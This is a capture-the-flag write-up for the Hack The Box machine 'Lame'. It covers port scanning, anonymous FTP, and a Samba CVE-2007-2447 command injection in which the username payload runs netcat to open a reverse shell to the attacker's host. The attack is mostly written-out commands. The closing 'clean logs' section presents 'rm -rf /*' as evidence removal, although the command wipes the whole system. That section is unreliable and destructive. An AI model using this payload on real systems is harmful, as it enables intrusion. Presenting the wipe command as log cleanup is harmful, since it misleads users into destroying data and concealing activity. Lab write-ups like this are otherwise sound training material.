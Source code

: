 # HTB - Lame

**IP Address:** `10.10.10.3`  
**OS:** Linux  
**Difficulty:** Easy  
**Tags:** #FTP, #Samba, #RCE, #Netcat, #CVE-2007-2447, #ShellStabilization

---

## 1. Network Scan

### 1.1 Ping Check

```bash
ping -c 1 10.10.10.3
```

✅ Host is alive

### 1.2 Full Port Scan

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts
```

Discovered:

- 21/tcp → FTP (vsftpd 2.3.4)
- 22/tcp → SSH
- 139/tcp → NetBIOS
- 445/tcp → Microsoft-DS (Samba)
- 3632/tcp → distccd

### 1.3 Targeted Version Scan

```bash
nmap -sC -sV -p21,22,139,445,3632 10.10.10.3 -oN targeted
```

---

## 2. FTP Enumeration

```bash
ftp 10.10.10.3
```

✅ Anonymous login allowed  
❌ No useful files to download

### 2.1 FTP Exploit (vsftpd 2.3.4)

Checked `vsftpd 2.3.4` in `searchsploit`:

```bash
searchsploit vsftpd 2.3.4
```

Downloaded and tested exploit:

```bash
searchsploit -m 49757
```

❌ Exploit ran but no shell was obtained.

---

## 3. Samba RCE - CVE-2007-2447

Targeted Samba 3.0.20 with this exploit:

```bash
https://github.com/MikeRega7/CVE-2007-2447-RCE
```

Confirmed shares:

```bash
smbclient -L 10.10.10.3 -N
```

Connected to `/tmp` share:

```bash
smbclient //10.10.10.3/tmp -N
```

Exploit uses:

```bash
username = "/=`nohup nc -e /bin/bash 10.10.14.4 443`"
```

Set up listener:

```bash
nc -lvnp 443
```

Received reverse shell!

---

## 4. Shell Stabilization

On the victim shell:

```bash
script /dev/null -c bash
```

Then:

```bash
[CTRL+Z]
stty raw -echo; fg
reset xterm
```

Now, you can use interactive commands like `clear`, `Ctrl+C`, etc.

---

## 5. Flags

### 5.1 User Flag

Located in home directory  
🏁 **User flag retrieved**

### 5.2 Root Flag

Checked `/root`  
🏁 **Root flag retrieved**

---

## ✅ Post Exploitation - Clean Logs (Optional)

To remove evidence:

```bash
(rm -rf /*) 2>/dev/null
```

⚠️ **Use with caution** — this wipes the system.

---

# ✅ MACHINE COMPLETE

